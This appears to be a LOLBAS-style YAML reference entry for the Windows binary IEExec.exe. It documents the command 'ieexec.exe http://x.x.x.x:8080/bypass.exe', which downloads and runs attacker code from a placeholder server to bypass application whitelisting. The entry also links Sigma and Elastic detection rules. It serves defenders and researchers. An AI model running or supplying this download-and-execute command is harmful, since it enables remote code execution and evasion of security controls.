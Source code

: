 ```yaml
---
Name: Ieexec.exe
Description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: .NetEXE
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: .NetEXE
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_ieexec_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - IOC: Network connections originating from ieexec.exe may be suspicious
Resources:
  - Link: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

